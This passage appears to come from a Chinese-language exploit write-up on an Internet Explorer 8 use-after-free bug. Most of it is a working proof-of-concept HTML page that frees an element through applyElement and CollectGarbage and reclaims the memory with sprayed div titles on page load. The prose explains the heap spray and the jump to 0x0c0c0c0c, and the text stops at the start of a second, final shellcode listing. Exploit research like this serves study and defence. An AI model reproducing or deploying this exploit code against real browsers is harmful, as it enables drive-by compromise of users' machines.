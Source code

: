 <pre class="prettyprint"><code class=" hljs xml"><span class="hljs-doctype">&lt;!doctype html&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">html</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">script</span>&gt;</span><span class="javascript">
 <span class="hljs-keyword">var</span> arr_div = <span class="hljs-keyword">new</span> <span class="hljs-built_in">Array</span>();
 <span class="hljs-keyword">var</span> junk=<span class="hljs-built_in">unescape</span>(<span class="hljs-string">"%u1c1c%u1c1c"</span>);
 <span class="hljs-keyword">while</span> (junk.length &lt; (<span class="hljs-number">0x100</span>- <span class="hljs-number">6</span>)/<span class="hljs-number">2</span>)
 {
    junk+=junk;
 }
 <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">helloWorld</span><span class="hljs-params">()</span> {</span>
 <span class="hljs-keyword">var</span> e0 = <span class="hljs-literal">null</span>;
 <span class="hljs-keyword">var</span> e1 = <span class="hljs-literal">null</span>;
 <span class="hljs-keyword">var</span> e2 = <span class="hljs-literal">null</span>;
 <span class="hljs-keyword">try</span> {
     e0 = document.getElementById(<span class="hljs-string">"a"</span>);
     e1 = document.getElementById(<span class="hljs-string">"b"</span>);
     e2 = document.createElement(<span class="hljs-string">"q"</span>);
     e1.applyElement(e2);
     e1.appendChild(document.createElement(<span class="hljs-string">'button'</span>));
     e1.applyElement(e0);
     e2.outerText = <span class="hljs-string">""</span>;
     e2.appendChild(document.createElement(<span class="hljs-string">'body'</span>));
 } <span class="hljs-keyword">catch</span>(e) { }
 CollectGarbage();
 <span class="hljs-keyword">for</span>(<span class="hljs-keyword">var</span> i = <span class="hljs-number">0</span>; i&lt;<span class="hljs-number">0x550</span>; i++)<span class="hljs-comment">//这里必须根据自己的电脑来配置</span>
 {
     arr_div[i]= document.createElement(<span class="hljs-string">"div"</span>);
     arr_div[i].title= junk.substring(<span class="hljs-number">0</span>,(<span class="hljs-number">0x58</span>-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
 }
 }
</span><span class="hljs-tag">&lt;/<span class="hljs-title">script</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">body</span> <span class="hljs-attribute">onload</span>=<span class="hljs-value">"eval(helloWorld())"</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">form</span> <span class="hljs-attribute">id</span>=<span class="hljs-value">"a"</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">form</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">dfn</span> <span class="hljs-attribute">id</span>=<span class="hljs-value">"b"</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">dfn</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">body</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">html</span>&gt;</span></code></pre>
<p>这里有个问题，经常占位不成功，也不知道为什么。。</p>
<h2 id="0x3-最终shellcode含rop">0x3 最终shellcode（含ROP）</h2>
<p><strong>无DEP：</strong></p>
<p>最后写了一个没有带ROP的shellcode，能够成功劫持程序流，但不能继续执行（因为ie8自带DEP保护，必须用ROP绕过，日后再完善吧）</p>
<p>最后的shellcode执行流程是首先进行堆喷射，其次利用对象占位将刚刚释放的内存改写，接着就是UAF漏洞的执行了，会跳转到0x0c0c0c0c的地方去执行恶意代码</p>
<pre class="prettyprint"><code class=" hljs xml"><span class="hljs-doctype">&lt;!doctype html&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">html</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">script</span>&gt;</span><span class="javascript">
<span class="hljs-comment">//堆喷射</span>